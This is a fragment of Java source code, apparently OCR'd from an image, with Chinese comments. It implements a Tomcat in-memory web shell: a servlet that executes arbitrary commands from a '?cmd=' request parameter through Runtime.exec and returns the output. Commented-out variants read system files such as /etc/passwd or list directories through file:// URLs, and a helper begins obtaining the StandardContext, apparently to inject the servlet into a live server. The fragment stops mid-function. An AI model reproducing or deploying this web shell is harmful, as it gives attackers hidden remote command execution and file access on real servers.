 ```java
//            // 2. 设置响应头，提供文件下载
//            HttpServletResponse response = (HttpServletResponse) servletResponse;
//            response.setContentType("application/octet-stream");
//            response.setHeader("Content-Disposition", "attachment; filename=\"" + file.getName() + "\"");
//            // 3. 读取文件并写入响应流
//            try (FileInputStream fis = new FileInputStream(file);
//                 OutputStream out = response.getOutputStream()) {
//                byte[] buffer = new byte[4096];
//                int bytesRead;
//                while ((bytesRead = fis.read(buffer)) != -1) {
//                    out.write(buffer, 0, bytesRead);
//                }
//                out.flush();
//            } catch (IOException e) {
//                System.err.println("文件传输失败: " + e.getMessage());
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "文件传输失败");
//            }

////读文件 ?cmd=file:///etc/passwd or 列目录 ?cmd=file:///
//            final URL url = new URL(cmd);
//            final BufferedReader in = new BufferedReader(new
//                    InputStreamReader(url.openStream()));
//            StringBuilder stringBuilder = new StringBuilder();
//            String line;
//            while ((line = in.readLine()) != null) {
//                stringBuilder.append(line + '\n');
//            }
//            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

//RCE ?cmd=whoami
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
    }

    @Override
    public String getServletInfo() {
        return "";
    }

    public void destroy() {
    }

    public static StandardContext getStandardContext1() {
        try{
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
```